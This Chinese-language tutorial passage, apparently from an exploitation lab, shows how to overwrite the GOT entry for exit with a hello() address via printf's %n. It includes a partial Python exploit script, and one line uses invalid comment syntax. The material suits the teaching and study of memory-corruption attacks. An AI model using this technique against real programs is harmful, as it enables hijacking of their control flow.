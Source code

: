 * 攻击原理

ALSR 并不负责随机代码段和数据段的机制

PIE 负责代码段以及数据段的随机化工作,只有在开启 ASLR 之后,PIE 才会生效

在开启 ALSR 并且不开启 PIE 的前提下,我们利用 printf(%n) 存在的 BUGS 将 exit 中 PLT 表项的 GOT 地址修改为 hello() 函数的值

* 攻击过程

首先查看 exit 的 plt 表项中 got 地址和 hello 函数的地址

![got_vuln](../pictures/format_string/change_got/got_vuln.png)

![got_exit_plt](../pictures/format_string/change_got/got_exit_plt.png)

exit 的 plt 表项中 got 地址是 0x804a01c

![got_hello](../pictures/format_string/change_got/got_hello.png)

hello 函数的地址是 0x80484eb

由于需要利用 printf(%n) 将 0x80484eb 值填充到地址 0x804a01c 处,但是不可能在 printf 中输入长度为 0x80484eb 的字符串,所以我们将填充分为两步填充低字节和填充高字节

针对低字节 0x84eb 对应十进制 34027,保证 %4$n 之前拥有 34027 字节,利用如下脚本的输出作为程序的输入

```PYTHON
#!/usr/bin/python2.7
import struct

HELLO = 0x80484eb
EXIT_PLT = 0x804a01c


def pad(s):
    return s + "X" * (512 - len(s))


exploit = ""
exploit += struct.pack("I", EXIT_PLT)
exploit += "AAAABBBBCCCC"
exploit += "%4$34011x" ;34011+16=34027
```